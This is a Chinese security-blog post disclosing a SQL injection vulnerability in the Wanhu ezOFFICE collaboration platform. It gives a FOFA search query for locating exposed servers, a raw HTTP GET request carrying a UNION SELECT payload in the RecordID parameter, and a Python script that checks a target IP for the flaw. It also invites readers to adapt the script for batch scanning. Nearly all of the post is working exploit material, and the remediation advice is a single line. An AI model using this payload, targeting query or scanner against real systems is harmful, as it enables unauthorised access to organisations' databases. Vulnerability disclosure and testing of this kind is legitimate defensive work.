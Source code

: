#  安全情报，万户ezOFFICE协同管理平台SendFileCheckTemplateEdit-SQL注入漏洞！！   
原创 Ax  极星信安   2023-11-26 22:03  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载，如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
万户ezOFFICE协同管理平台SendFileCheckTemplateEdit-SQL注入漏洞，万户ezOFFICE协同管理平台是一个综合信息基础应用平台。万户ezOFFICE协同管理平台存在SQL注入漏洞，攻击者可利用该漏洞获取数据库相关信息以及数据库权限。  
  
**影响版本**  
```
万户ezOFFICE协同管理平台
```  
  
**漏洞情报**  
  
**fofa语句**  
```
app="万户ezOFFICE协同管理平台"
```  
  
**Poc**  
```
GET /defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27102103122%27))%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL-- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
响应数据包第42,43行包含6cfe798ba8e5b85feb50164c59f4bec9字符串就证明漏洞存在  
  
**Poc验证工具**  
  
这里给个基础的demo，大佬们自己改成批量就可以了。  
```
import requests
ip=input("请输入IP")
# 定义请求头和URL
url = f"http://{ip}/defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27102103122%27))%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--"
headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36",
    "Connection": "close",
    "Accept": "*/*",
    "Accept-Language": "en",
    "Accept-Encoding": "gzip",
}

# 发送GET请求
response = requests.get(url, headers=headers)

# 检查响应状态码
if response.status_code == 200:
    # 获取响应文本
    response_text = response.text
    # 检查特定字符串是否在响应文本的第42行或43行
    lines = response_text.split('\n')
    if len(lines) >= 43 and ("6cfe798ba8e5b85feb50164c59f4bec9" in lines[42] or "6cfe798ba8e5b85feb50164c59f4bec9" in lines[43]):
        print("验证成功")
    else:
        print("验证失败")
else:
    print("验证失败")

```  
  
**修复建议**  
```
建议及时更新至最新版本！
```  
  
**关注我们**  
  
  
